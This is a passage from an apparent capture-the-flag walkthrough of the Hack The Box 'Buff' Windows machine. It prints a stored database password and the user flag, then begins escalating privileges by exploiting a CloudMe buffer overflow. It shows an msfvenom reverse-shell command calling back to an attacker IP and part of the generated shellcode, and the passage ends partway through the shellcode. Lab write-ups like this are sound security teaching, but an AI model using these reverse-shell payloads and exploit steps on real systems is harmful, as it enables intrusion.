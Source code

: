       PS C:\xampp\htdocs\gym\upload>

   Traversing to the gym directory we find "New Text Document.txt" containing database information. Possible rabbit hole?

     PS C:\xampp\htdocs\gym> type "New Text Document.txt"
      type "New Text Document.txt"
      $mysql_host = "mysql16.000webhost.com";
      $mysql_database = "a8743500_secure";
      $mysql_user = "a8743500_secure";
      $mysql_password = "ipad12345";


4. Go and grab user.txt
    PS C:\Users\shaun\Desktop> cat user.txt
      cat user.txt
      1a2e0b6779aa060fc44a5575a0a88926


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate the box using winPEAS gives us nothing of use. Browsing the directories of shaun we find the file CloudMe_1112.exe,
   a quick google on that file shows us that it's vulnerable to buffer overflow. CloudMe runs on port 8888 and can be verified by
   executing the .exe-file and then run netstat.
   C:\Users\shaun\Downloads>netstat -ano
    netstat -ano

    Active Connections
      Proto  Local Address          Foreign Address        State           PID
      TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1472


   Prepare the exploit and create the payload reverse shell. Save the binary data (buf-lines) is your payload.
     root@nidus:/git/htb/buff# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4499 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      Found 11 compatible encoders
      Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
      x86/shikata_ga_nai succeeded with size 351 (iteration=0)
      x86/shikata_ga_nai chosen with final size 351
      Payload size: 351 bytes
      Final size of python file: 1712 bytes
      buf =  b""
      buf += b"\xb8\x2e\x4a\xaf\xad\xda\xcf\xd9\x74\x24\xf4\x5e\x31"
      buf += b"\xc9\xb1\x52\x31\x46\x12\x83\xc6\x04\x03\x68\x44\x4d"
      buf += b"\x58\x88\xb0\x13\xa3\x70\x41\x74\x2d\x95\x70\xb4\x49"
      buf += b"\xde\x23\x04\x19\xb2\xcf\xef\x4f\x26\x5b\x9d\x47\x49"
      buf += b"\xec\x28\xbe\x64\xed\x01\x82\xe7\x6d\x58\xd7\xc7\x4c"
      buf += b"\x93\x2a\x06\x88\xce\xc7\x5a\x41\x84\x7a\x4a\xe6\xd0"
      buf += b"\x46\xe1\xb4\xf5\xce\x16\x0c\xf7\xff\x89\x06\xae\xdf"
      buf += b"\x28\xca\xda\x69\x32\x0f\xe6\x20\xc9\xfb\x9c\xb2\x1b"
      buf += b"\x32\x5c\x18\x62\xfa\xaf\x60\xa3\x3d\x50\x17\xdd\x3d"
      buf += b"\xed\x20\x1a\x3f\x29\xa4\xb8\xe7\xba\x1e\x64\x19\x6e"
      buf += b"\xf8\xef\x15\xdb\x8e\xb7\x39\xda\x43\xcc\x46\x57\x62"
      buf += b"\x02\xcf\x23\x41\x86\x8b\xf0\xe8\x9f\x71\x56\x14\xff"
      buf += b"\xd9\x07\xb0\x74\xf7\x5c\xc9\xd7\x90\x91\xe0\xe7\x60"